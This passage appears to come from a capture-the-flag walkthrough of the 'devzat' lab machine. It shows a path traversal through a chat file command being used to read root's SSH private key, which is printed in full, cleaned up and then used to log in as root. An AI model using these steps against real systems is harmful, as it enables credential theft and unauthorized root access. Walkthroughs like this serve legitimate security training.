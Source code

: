 The output indicates that one directory above the application's current working directory is `/root/`. Abuse this to read `root`'s SSH private key.

```bash
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
catherine:
```

Transfer the private key and clean it up.

```bash
$ cat root
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
$ sed -i 's/\[SYSTEM\] //g' root
$ cat root
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
$ chmod 0600 root
```

Use the private key to access the target as `root` and read the system flag from `/root/root.txt`.

```bash
$ ssh -i root root@devzat.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 14 Mar 2022 01:50:06 AM UTC

  System load:              0.0
  Usage of /:               56.7% of 7.81GB
  Memory usage:             28%
  Swap usage:               0%
  Processes:                238
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.129.137.148
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:e5d7


107 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
```